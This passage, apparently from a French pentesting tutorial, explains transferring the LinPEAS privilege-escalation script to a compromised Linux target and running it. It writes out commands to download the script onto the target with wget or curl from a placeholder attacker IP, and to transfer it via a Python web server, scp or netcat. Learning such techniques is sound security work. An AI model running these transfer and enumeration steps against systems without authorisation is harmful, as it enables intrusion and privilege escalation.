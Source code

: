 2.  **Transfert vers la Machine Cible** : Une fois le script téléchargé sur votre machine de pentest, vous devez le transférer vers la machine Linux cible. Plusieurs méthodes sont possibles, en fonction des services disponibles sur la machine cible et de vos accès :
    *   **Serveur Web Simple (Python)** : C'est une méthode très courante si vous avez un shell sur la machine cible et que Python est installé.
        *   **Sur votre machine de pentest** (dans le répertoire où se trouve `linpeas.sh`) :
            ```bash
            python3 -m http.server 8000
            ```
        *   **Sur la machine cible** (depuis le shell) :
            ```bash
            wget http://<IP_de_votre_machine_pentest>:8000/linpeas.sh
            # Ou avec curl si wget n'est pas disponible
            curl http://<IP_de_votre_machine_pentest>:8000/linpeas.sh -o linpeas.sh
            ```

        ![Transfert de LinPEAS via un serveur HTTP Python](https://private-us-east-1.manuscdn.com/sessionFile/qGmLfo3bbhr8fQu0zeox2w/sandbox/EafZd513TzCDt8kHOzeBDu-images_1749843766804_na1fn_L2hvbWUvdWJ1bnR1L3VwbG9hZC9zZWFyY2hfaW1hZ2VzL1F6ZjJwSlRzamY5Zg.png?Policy=eyJTdGF0ZW1lbnQiOlt7IlJlc291cmNlIjoiaHR0cHM6Ly9wcml2YXRlLXVzLWVhc3QtMS5tYW51c2Nkbi5jb20vc2Vzc2lvbkZpbGUvcUdtTGZvM2JiaHI4ZlF1MHplb3gydy9zYW5kYm94L0VhZlpkNTEzVHpDRHQ4a0hPemVCRHUtaW1hZ2VzXzE3NDk4NDM3NjY4MDRfbmExZm5fTDJodmJXVXZkV0oxYm5SMUwzVndiRzloWkM5elpXRnlZMmhmYVcxaFoyVnpMMUY2WmpKd1NsUnphbVk1WmcucG5nIiwiQ29uZGl0aW9uIjp7IkRhdGVMZXNzVGhhbiI6eyJBV1M6RXBvY2hUaW1lIjoxNzY3MjI1NjAwfX19XX0_&Key-Pair-Id=K2HSFNDJXOU9YS&Signature=ighogL~0qLfKEG3TaXdPdlv6DwQg5uBIB6hzs6JhIGlpyBpnSOO2Y~wXuFY3iVp9XTU1C11zMt6exXE43KEGcYOBNcBuvzve3D8Ah~-vmUQwcSlAMU6iG3ju5~S4lLWIlgIkVbMTi0tdPX8pZjvM4VP1SwqK~zZ~NhujNu9NdkIrQnN9UElkTpfo2mMg42p13kO8-lN6WR39496yM~Ci7TwhXaI~qhVgXAXq6kgwGcA4-4Thm2z-u2eKJzKdwQUeqxEuKmWHfFo1dNACELgX6NYAXQXOn05Th74tJYjqGqeRjgXfbYFRizTQQh8k8Psy7e3-m8dET5nCIb0ogAc2kg__)
        *Figure 1: Transfert du script LinPEAS vers la machine cible via un serveur HTTP Python.* 

    *   **SCP (Secure Copy Protocol)** : Si vous avez un accès SSH à la machine cible.
        *   **Sur votre machine de pentest** :
            ```bash
            scp linpeas.sh user@<IP_cible>:/tmp/
            ```
    *   **Netcat** : Pour un transfert simple sans serveur web.
        *   **Sur votre machine de pentest** :
            ```bash
            nc -lvnp 1234 < linpeas.sh
            ```
        *   **Sur la machine cible** :
            ```bash
            nc <IP_de_votre_machine_pentest> 1234 > linpeas.sh
            ```

### 2. Exécution de LinPEAS et Options de Ligne de Commande

Une fois le script `linpeas.sh` transféré sur la machine cible, vous devez le rendre exécutable et le lancer. LinPEAS offre une multitude d'options pour personnaliser le scan et la sortie.

1.  **Rendre le script exécutable** :
    ```bash
    chmod +x linpeas.sh
    ```

2.  **Exécuter le script** :
    La syntaxe de base est `./linpeas.sh [OPTIONS]`. Voici les options les plus courantes et leur explication détaillée :

    *   **`./linpeas.sh` (sans option)** : Exécute un scan complet par défaut, vérifiant toutes les catégories de vulnérabilités et affichant la sortie colorée.

    *   **`./linpeas.sh -h` ou `--help`** : Affiche le menu d'aide de LinPEAS, listant toutes les options disponibles avec une brève description.
        ```bash
        ./linpeas.sh -h
        ```
